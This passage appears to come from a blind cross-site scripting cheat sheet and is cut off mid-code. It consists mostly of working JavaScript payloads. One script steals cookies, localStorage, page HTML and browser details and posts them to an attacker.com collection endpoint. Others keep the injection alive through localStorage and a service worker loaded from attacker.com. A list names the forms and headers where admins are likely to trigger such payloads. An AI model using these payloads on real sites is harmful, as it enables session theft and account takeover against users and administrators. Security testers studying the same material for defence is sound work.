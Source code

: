 #### Custom Self-Hosted Solution
```javascript
// payload.js on attacker server
(function() {
  var data = {
    url: location.href,
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage),
    dom: document.documentElement.innerHTML.substring(0, 5000),
    userAgent: navigator.userAgent,
    time: new Date().toString()
  };
  
  fetch('https://attacker.com/collect', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
})();
```

### Blind XSS Exploitation Techniques

#### Identify Potential Blind XSS Entry Points
- Contact/Support forms
- User profiles that admins review
- Error logs
- HTTP headers (User-Agent, Referer)
- Export/import features
- Comment sections
- Product reviews

#### Payload Persistence & Re-execution
```javascript
// Store in localStorage for persistence
<script>
localStorage.setItem('xss_payload', '<img src=x onerror="alert(1)">');
document.write(localStorage.getItem('xss_payload'));
</script>

// Create a service worker for persistence
<script>
if (navigator.serviceWorker) {
  navigator.serviceWorker.register('https://attacker.com/sw.js');
}
</script>
```

#### Information Collection
```javascript
// Gather extensive information upon execution
<script>
var data = {
  url: location.href,
  cookies: document.cookie,
  localStorage: JSON.stringify(localStorage),
  sessionStorage: JSON.stringify(sessionStorage),
  html: document.documentElement.outerHTML,
  screenshot: getScreenshot(), // Function to capture canvas screenshot
  userAgent: navigator.userAgent,
  time: new Date().toString(),
  origin: document.location.origin,
  referrer: document.referrer,
  adminElements: checkForAdminElements(), // Function to check admin UI elements
```